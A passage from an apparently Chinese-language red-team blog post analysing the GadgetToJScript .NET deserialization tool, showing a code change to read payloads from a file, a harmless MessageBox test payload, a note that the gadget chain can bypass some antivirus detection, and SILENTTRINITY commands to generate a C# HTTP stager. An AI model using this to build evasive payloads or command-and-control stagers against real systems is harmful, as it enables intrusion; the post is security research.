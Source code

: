 我们可以看到，Payload以字符串的形式进行保存时，需要考虑转义字符，这会影响Payload的开发效率，也不是很直观

这里给出我的一个解决方法：将`CompileAssemblyFromSource`换成`CompileAssemblyFromFile`

这样可以从文件中读取Payload，也就不再需要考虑转义字符

我修改过的版本已上传至github，地址如下：

https://github.com/3gstudent/GadgetToJScript

我的版本修改了TestAssemblyLoader.cs，关键代码如下：

```
CompilerResults results = provider.CompileAssemblyFromFile(parameters, "payload.txt");
```

从固定文件payload.txt中读取Payload

如果想要实现同原工程相同的功能，payload.txt的内容如下：

```
using System;
using System.Runtime.InteropServices;
public class TestClass
{
	[DllImport("User32.dll", CharSet = CharSet.Unicode)]public static extern int MessageBox(IntPtr h, string m, string c, int t);
	public TestClass()
	{
		MessageBox((IntPtr)0, "Test .NET Assembly Constructor Called.", "Coolio", 0);
        }
}
```

Payload看起来更加直观，也更易于开发

## 0x04 利用分析
---

GadgetToJScript应该算是对James Forshaw开源的DotNetToJScript的进一步利用，添加的反序列化调用链不需要调用`d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)`，能够绕过一些杀毒软件对特定代码的检测，可尝试以此为模板做进一步的开发

对于Payload的进一步利用，需要更换成csharp的格式，这让我想到了SILENTTRINITY

## 0x05 同SILENTTRINITY结合的方法
---

对于SILENTTRINITY，我在之前的文章[《SILENTTRINITY利用分析》](https://3gstudent.github.io/3gstudent.github.io/SILENTTRINITY%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)做过分析

**注：**

SILENTTRINITY正在持续更新中，添加了更多功能，我文章的内容有可能不再准确

搭建好SILENTTRINITY后，选择生成csharp格式的stager，命令如下：

```
stagers
list
use csharp
generate http
```

